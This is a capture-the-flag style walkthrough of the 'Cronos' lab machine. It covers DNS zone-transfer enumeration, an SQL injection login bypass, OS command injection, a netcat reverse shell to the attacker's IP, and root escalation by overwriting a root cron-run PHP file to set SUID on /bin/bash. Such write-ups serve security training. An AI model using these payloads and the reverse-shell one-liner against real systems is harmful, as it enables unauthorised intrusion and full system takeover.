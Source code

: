 # Cronos

## Basic Information

|          |  |
| :---                 |     :---:      |
| Machine Name         | Cronos     |
| Written by           | Adir Biran       |
| IP Address           | 10.10.10.13       |
| Tools and Techniques | Nmap, Gobuster, nslookup, dig, SQL Injection, Command Injection, Cronjobs      |

## Method
Enumerating the services and virtual hosts for a login page, exploiting it using SQL injection and getting access with OS Command Injection.  
Escalating the privileges by abusing a cron job.  

## Enumeration


#### Nmap
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677718-6b630f54-92d5-4b90-81fb-10b4ee89e47c.png">
</p>

Open Ports:  
22 - SSH  
53 - DNS  
80 - HTTP  

#### Gobuster

Gobuster - Port 80  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677719-8e4f9dfc-7820-45e4-94e6-8c32a582ec1c.png">
</p>

#### Manual Enumeration

The website - Port 80  
<img src="https://user-images.githubusercontent.com/21021400/145677720-3e99be85-6762-4023-b68f-4ea99ef70811.png">
<p align="center">
</p>

Looking for virtual hosts and using the machine itself as the DNS server  
```
nslookup 10.10.10.13 10.10.10.13
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677721-c549c411-d118-4ee8-b20f-8e09f00ece02.png">
</p>

Domain found: cronos.htb  

Looking for virtual hosts related to cronos.htb  
```
dig axfr cronos.htb @10.10.10.13
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677722-ed52b9d2-3f44-4209-914e-f554938b985e.png">
</p>

Virtual hosts found:  
cronos.htb  
ns1.cronos.htb  
admin.cronos.htb  

Added them to /etc/hosts  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677724-0e8d0677-de27-431c-b431-a4c2543bc3ef.png">
</p>

cronos.htb  
The main website, nothing useful found.  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677725-62437be2-326c-4156-a4f1-056cf65a3d0f.png">
</p>

ns1.cronos.htb  
The same apache server page we reached earlier.  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677726-669d2693-4015-4bd3-9fd1-e5db1f99600d.png">
</p>

admin.cronos.htb  
A login page.  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677727-1dd27a73-4488-4ab9-84df-3e66d18d86fa.png">
</p>

## Exploitation

Tried admin:admin and few more default credentials - all failed  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677728-c38155e2-6f05-4b32-a689-73826a4275f3.png">
</p>

Source code also didn't provide useful information.  

#### SQL Injection

Tried SQL injection  
```
' or 1==1-- -
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677729-957cac37-65da-4faf-b628-2a22bfa7f000.png">
</p>

And we're in.  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677730-8ba44d89-b9d2-40e3-bc3b-af0c3d40a76e.png">
</p>

Pinged myself and captured the traffic with tcpdump  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677731-a0421405-d315-4c4d-83bb-358db05712b7.png">
</p>

#### OS Command Injection

Tried OS command injection  
```
;whoami
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677732-e56b199b-bef1-426b-8862-a9fbebf28565.png">
</p>

The user running the commands is www-data.  

Let's get a reverse shell  
```
;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1234 >/tmp/f
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677733-3136df78-09b4-41a1-838e-d81c4ed01a9f.png">
</p>

## Privilege Escalation (www-data -> root)

Users on the machine:  
www-data  
noulis  
root  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677734-876ef1e6-3b9a-4935-96b1-33269212394d.png">
</p>

www-data's groups  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677735-524fc622-ce17-478c-bc2c-a058ed843151.png">
</p>

SUID files  
```
find / -perm -4000 2>/dev/null
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677736-dd9b77d6-dd8e-433b-b7cf-5b1bf67f275c.png">
</p>

sudo permissions  
```
sudo -l
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677737-7c8f3876-147c-4fd3-810b-43f038b7a8d6.png">
</p>

Capabilities  
```
getcap -r / 2>/dev/null
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677739-1f478587-07f6-4cef-85a2-c402e4577402.png">
</p>

Checking noulis' home directory  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677740-55b963a1-2c6f-47e9-8f5d-e721e09f6b2f.png">
</p>

Checking /var/www directory  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677742-542d0ded-42b9-4f1a-bdef-4ee2150eebce.png">
</p>

Laravel is installed in /var/www, checking config files in laravel/.env  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677743-be5d86da-253d-47fb-8d83-36e4dd8a01e7.png">
</p>

So far, all methods tried above failed to escalate the privileges.  

Checking crontab
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677744-5453e29a-9bfa-41d2-a291-59c471a12b35.png">
</p>

There is a cron job running by root every minute.  
executing with php the /var/www/laravel/artisan file.  

Checking the content of the artisan file  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677745-a124ded3-b202-4f6b-9522-d1c1bd6384a0.png">
</p>

We can write to that file  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677746-4671096c-0975-4a67-83cf-ea1b57a76929.png">
</p>

Let's replace the content of the file with the following:  
```
<?php
system('chmod +s /bin/bash');
?>
```

By executing the command:  
```
echo "<?php system('chmod +s /bin/bash'); ?>" > artisan
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677747-c67e0899-65b3-4edc-9aa5-1b3c133f36a9.png">
</p>

Once executed by root, a SUID will be added to /bin/bash and we will be able to get a root shell.  

After a minute, checking the /bin/bash permissions:  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677751-26efb128-2f8d-4e92-a4fc-9ff0bc959494.png">
</p>

Executing a root shell  
```
bash -p
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677752-17ae7c2b-99f1-43e9-93ec-6ca7e13fbad5.png">
</p>

and we're root.
